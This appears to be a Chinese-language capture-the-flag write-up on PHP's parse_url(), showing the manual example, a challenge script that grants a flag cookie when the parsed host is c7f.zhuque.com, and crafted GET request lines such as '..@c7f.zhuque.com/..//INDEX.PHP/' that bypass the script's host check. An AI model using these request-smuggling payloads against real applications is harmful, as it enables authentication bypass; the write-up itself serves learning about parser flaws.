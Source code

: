 ```
 <?php
$url = 'http://username:password@hostname/path?arg=value#anchor';

print_r(parse_url($url));

echo parse_url($url, PHP_URL_PATH);
?> 
```

以上例程会输出：

```
Array
(
    [scheme] => http
    [host] => hostname
    [user] => username
    [pass] => password
    [path] => /path
    [query] => arg=value
    [fragment] => anchor
)
/path
```

通过///x.php?key=value的方式可以使其返回false或null

### 解题步骤

问题代码

``` php+HTML
<?php
ini_set("display_errors",0);
$uri = $_SERVER['REQUEST_URI'];
if(stripos($uri,".")) //点符号不能出现在第二位及往后的位置，只能出现在第一位
{
    die("Unkonw URI.");
}
if(!parse_url($uri,PHP_URL_HOST))  //要让$url验证不符合URL格式，这时parse_url()会返回FALSE
{
    $uri = "http://".$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$host = parse_url($uri,PHP_URL_HOST);
if($host === "c7f.zhuque.com"){
    setcookie("AuthFlag","flag{*******");
}
?>

```

$_SERVER['REQUEST_URL'] 的值

例如' http://123.56.74.233:12569/index.php?arg=value#anchor ';参数为/index.php?arg=value#anchor



GET请求改为

GET ..@c7f.zhuque.com/..//INDEX.PHP/  HTTP/1.1

或

GET .@c7f.zhuque.com/..//INDEX.PHP/  HTTP/1.1

或

GET ..@c7f.zhuque.com/..//INDEX.PHP/  HTTP/1.1

